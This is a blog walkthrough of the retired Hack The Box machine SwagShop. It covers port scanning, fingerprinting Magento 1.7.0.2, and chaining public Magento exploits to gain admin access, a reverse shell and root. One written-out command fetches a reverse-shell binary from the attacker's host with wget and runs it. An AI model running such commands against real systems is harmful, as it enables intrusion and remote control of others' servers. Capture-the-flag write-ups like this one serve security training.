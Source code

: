 ```yaml
---
layout: post
title: "SwagShop: Hack The Box Walkthrough"
date: 2019-09-28 19:03:53 +0000
last_modified_at: 2019-09-28 19:03:53 +0000
category: Walkthrough
tags: ["Hack The Box", SwagShop, retired]
comments: true
image:
  feature: swagshop-htb-walkthrough.jpg
  credit: Life-Of-Pix / Pixabay
  creditlink: https://pixabay.com/photos/pigeon-bird-walking-street-road-569128/
---
```


This post documents the complete walkthrough of SwagShop, a retired vulnerable [VM][1] created by [ch4p][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

SwagShop is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.140 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-05-14 01:30:31 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.140                                    
Discovered open port 80/tcp on 10.10.10.140
```

Nothing unusual. Let's do one better with `nmap` scanning the discovered ports to establish the services.

```
# nmap -n -v -Pn -p22,80 -A --reason -oN nmap.txt 10.10.10.140
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
```

The `http` service appears to be running an old version of Magento Community Edition (2014? Hello, it's 2019!). Sometimes it pays to look at the copyright notice down at the footer. Here's how it looks like.

<a class="image-popup">
![d34cc2c8.png](/assets/images/posts/swagshop-htb-walkthrough/d34cc2c8.png)
</a>

Scroll down.

### Magento Community Edition 1.7.0.2

How do I know the version? Check out the release notes basically. The directory structure is also found in a GitHub repository [mirror](https://github.com/OpenMage/magento-mirror/tree/1.7.0.2) for older versions.

<a class="image-popup">
![a09563a1.png](/assets/images/posts/swagshop-htb-walkthrough/a09563a1.png)
</a>

### Magento Shoplift Vulnerability

This particular version is susceptible to the Magento Shoplift vulnerability [discovered](https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) by Checkpoint in 2015.

Well, there's a readily available exploit, EDB-ID [37977](https://www.exploit-db.com/exploits/37977) for it. Running this exploit will grant access to the Admin Panel with credentials (`forme:forme`).

### Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution

This next exploit, EDB-ID [37811](https://www.exploit-db.com/exploits/37811) will allow us to execute remote commands. There are just two minor modifications to the exploit script.

<a class="image-popup">
![701cf120.png](/assets/images/posts/swagshop-htb-walkthrough/701cf120.png)
</a>

We got the credentials from the previous exploit. The installation date can be obtained from `http://10.10.10.140/app/etc/local.xml` as suggested.

<a class="image-popup">
![4bfdeefa.png](/assets/images/posts/swagshop-htb-walkthrough/4bfdeefa.png)
</a>

One last thing we need to know is the URL to the Admin Panel, which is `http://10.10.10.140/index.php/admin`. You can get a feel of the directory structure by navigating the site a bit, provided it doesn't give you `503`s :laugh:

## Low-Privilege Shell

I generate a reverse shell with `msfvenom`, host it with Python's SimpleHTTPServer, and also set up a `nc` listener. We then execute the exploit like so.

```
# python rce.py http://10.10.10.140/index.php/admin "wget -O/tmp/rev http://10.10.14.11/rev; chmod +x /tmp/rev; /tmp/rev"
```

<a class="image-popup">
![2654aa89.png](/assets/images/posts/swagshop-htb-walkthrough/2654aa89.png)
</a>

It's customary to display `/etc/passwd`.

<a class="image-popup">
![a7d45ff6.png](/assets/images/posts/swagshop-htb-walkthrough/a7d45ff6.png)
</a>

The file `user.txt` is in `haris`'s home directory and it can be disappointingly read by all.

<a class="image-popup">
![b11e7841.png](/assets/images/posts/swagshop-htb-walkthrough/b11e7841.png)
</a>

## Privilege Escalation

Notice the `.sudo_as_admin_successful`?

<a class="image-popup">
![1859737a.png](/assets/images/posts/swagshop-htb-walkthrough/1859737a.png)
</a>

This means that `haris` is able to `sudo` to a certain extent.

<a class="image-popup">
![4aaf3f8b.png](/assets/images/posts/swagshop-htb-walkthrough/4aaf3f8b.png)
</a>

There you go, classic escape to `root` shell.

<a class="image-popup">
![6d2c05ad.png](/assets/images/posts/swagshop-htb-walkthrough/6d2c05ad.png)
</a>

With that, getting `root.txt` is a breeze.

<a class="image-popup">
![87726194.png](/assets/images/posts/swagshop-htb-walkthrough/87726194.png)
</a>

:dancer:

## Afterthought

What a neat idea to promote the SwagShop!

[1]: https://www.hackthebox.eu/home/machines/profile/188
[2]: https://www.hackthebox.eu/home/users/profile/1
[3]: https://www.hackthebox.eu/
